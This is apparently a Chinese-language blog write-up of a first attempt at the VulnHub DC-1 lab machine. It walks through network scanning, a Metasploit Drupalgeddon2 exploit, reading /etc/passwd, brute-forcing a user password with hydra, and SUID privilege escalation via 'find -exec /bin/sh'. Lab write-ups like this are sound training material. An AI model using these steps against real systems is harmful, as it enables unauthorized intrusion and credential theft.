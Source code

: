 ```yaml
---
layout: page
title: "DC-1"
date: 2019-9-14
description: "我的第一次渗透DC-1"
tag: 渗透
---
```




## 我的第一次渗透
[靶机地址](https://www.vulnhub.com/entry/dc-1-1,292/)

渗透的环境为kali ***readyGo***

---
### 获取信息
+ `arp-scan -l`

获取当前局域网内的IP
![arp-scan](../images/posts/DC-1-1/arp.png)

出现了*192.168.79.2*和*192.168.79.131* **-_-！** 怎么会有两个IP，不管了一个一个试吧

+ `nmap -A -p0-65535 192.168.79.2`
+ `nmap -A -p0-65535 192.168.79.131`

192.168.79.2这个IP搞不懂到底是哪儿的，nmap扫出来后看到只开放了dns解析服务，所以靶机不是它。192.168.79.131我来了

![nmap](../images/posts/DC-1-1/nmap.png)

看到它开放了80端口使用的cms为drupal

### 查找漏洞
使用 **Metasploit** 查找该cms的漏洞
+ `search drupal`

![search](../images/posts/DC-1-1/search.png)

选择2018-03-28这个漏洞

+ `use exploit/unix/webapp/drupal_drupalgeddon2 `
+ `show options`
+ `set rhosts 192.168.79.131`

![show](../images/posts/DC-1-1/show.png)

设置required为yes的参数，GO！！！

### 成功获取到shell

![shell](../images/posts/DC-1-1/shell.png)

+ `cat /etc/passwd`查看电脑上有哪些用户

![passwd](../images/posts/DC-1-1/passwd.png)

看到有flag4用户，直接hydra走一波~~~等待的过程总是漫长的，我讨厌爆破，但也是我目前唯一会的. . . . . .

![hydra](../images/posts/DC-1-1/hydra.png)

看到密码为orange

![hint](../images/posts/DC-1-1/hint.png)

官方提示需要读取的flag在/root下，SO

### 提权
+ `find / -type f -prem -u=s 2>/dev/null`
查看有哪些命令具有suid权限

+ `find / -name flag4 -exec "/bin/sh" \;`

![root](../images/posts/DC-1-1/root.png)

#### 我的第一次靶机渗透成功

![success](../images/posts/DC-1-1/success.png)

linux命令必须得玩透！！！不然就是一脸懵逼，提权全靠别人写好的博客。。。太难了
